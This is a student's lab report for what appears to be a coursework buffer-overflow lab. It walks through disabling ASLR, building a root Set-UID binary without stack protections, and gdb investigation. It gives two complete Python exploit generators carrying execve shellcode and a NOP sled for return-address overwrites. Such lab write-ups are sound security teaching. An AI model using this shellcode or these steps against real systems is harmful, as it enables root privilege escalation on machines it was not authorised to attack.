




# Trabalho realizado nas Semanas #5

## Task 1

- Disable address randomization, specifically for stack and heap memory, to ensure that variable addresses remain consistent across multiple program executions. (run sudo sysctl -w kernel.randomize_va_space=0)

- Changed the /bin/sh linked shell so it can run Set-UID programs. (run sudo ln -sf /bin/zsh /bin/sh)

- make to create the binaries a32.out and a64.out.

- running ./a32.out give us acess to the shell.



## Task 2

- We compiled the program using make, which enables the flags to disable the Stack Guard (-fno-stack-protector) and the non-executable stack protections (-z execstack).
- The makefile also runs:

```sh
    sudo chown root stack
    sudo chmod 4755 stack
```
- The purpose of this is to make the program a root-owned Set-UID program. First we changed ownership to root and then enabled the Set-UID bit. (Changing ownership will turn the bit off so we have to change it before). Then we checked that the Set-UID bit was indeed active and got out confirmation ("s" instead of "x").



## Task 3

### Investigation

- After the makefile compiled our program with the debug flag we can use gdb to enter debug.
- When debugging we used a few provided commands to get more information on how to proceed with the attack:

```sh
    $ gdb stack-L1-dbg #to start debugging
    gdb-peda$ b bof # set a breakpoint on the bof function so that we can check some addresses when we get there, since thats the function where the vulnerability is
    gdb-peda$ run # run until beginning of function
    gdb-peda$ next # so we actually get into the function and get the right values when printing (ebp pointing to the current stack frame) 
    gdb-peda$ p $ebp # get our stack frame address 
    gdb-peda$ p &buffer # get the buffer address
```
### Investigation

- Given the skeleton provided to us in the exploit.py file we only needed to find out or get the shell code , our start value for where to write the shell code, the return address and the offset.
- The shell code was provided to us in the call_shellcode file.
- Our return address and start value need to match for everything to work correctly, there are various options for these values, we chose 248 and 0xffffcc04 by trial and error. This means that when we return to that address the shell code will be written around there because of where it was written in the buffer.
```py
    content[start:start + len(shellcode)] = shellcode
```
- Our offset is going to be 112 since that is the distance between the beginning of our buffer and the return address. This way we write our new return address on top of the old one and the program returns to where we want it to (the address that will lead to our malicious code).
- In the end our file looks like this
```py
    import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 248               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcc04           # Change this number 
offset = 112              # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

- The file will write to badfile which in turn will write in the buffer.
- Finally when running the vulnerable program we managed to open our shell:



## Task 4
- In this variation we do not have access to our buffer size which means we will have to resort to a different strategy.
- Since we cannot precisely place our return address we will spray our buffer, basically "shoot" everywhere to hit the target.
- We will still use gdb to determine our buffer address and based on that we construct our badfile with the script below:
- Note: this time we insert our shell code in the end of the buffer and also increase the return address to deal with the new uncertainty. 
```py
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)               # Change this number 
#print(len(shellcode))
content[start:] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcad0 + 400           # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
for offset in range(50):
	content[offset*L:offset*L + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

- Once again we succeed in opening the shell:




